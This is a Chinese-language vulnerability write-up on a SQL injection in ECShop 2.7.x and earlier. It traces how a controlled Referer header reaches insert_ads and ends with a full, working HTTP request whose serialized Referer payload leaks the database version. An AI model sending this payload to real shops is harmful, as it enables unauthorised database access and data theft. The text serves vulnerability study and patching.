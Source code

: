 ECShop \<= 2.7.x sql注入漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

ECShop（2.x、3.0.x、3.6.x）

三、复现过程
------------

### 漏洞分析

先看user.php

![](./.resource/ECShop<=2.7.xsql注入漏洞/media/rId25.png)

\$back\_act变量来源于HTTP\_REFERER，我们可控。

assign函数用于在模版变量里赋值

![](./.resource/ECShop<=2.7.xsql注入漏洞/media/rId26.png)

再看display函数

![](./.resource/ECShop<=2.7.xsql注入漏洞/media/rId27.png)

读取user\_passport.dwt模版文件内容，显示解析变量后的html内容，用\_echash做分割，得到\$k然后交给isnert\_mod处理，由于\_echash是默认的，不是随机生成的，所以\$val内容可随意控制。

再看insert\_mod函数

![](./.resource/ECShop<=2.7.xsql注入漏洞/media/rId28.png)

非常关键的一个地方，这里进行了动态调用

\$val传入进来用\|分割，参数传入进来时需要被序列化

再看include/lib\_insert.php中的insert\_ads函数

![](./.resource/ECShop<=2.7.xsql注入漏洞/media/rId29.png)

可以看到这里直接就能注入了

### payload

    GET /user.php?act=login HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0

![](./.resource/ECShop<=2.7.xsql注入漏洞/media/rId31.png)

参考链接
--------

> https://cloud.tencent.com/developer/article/1333449
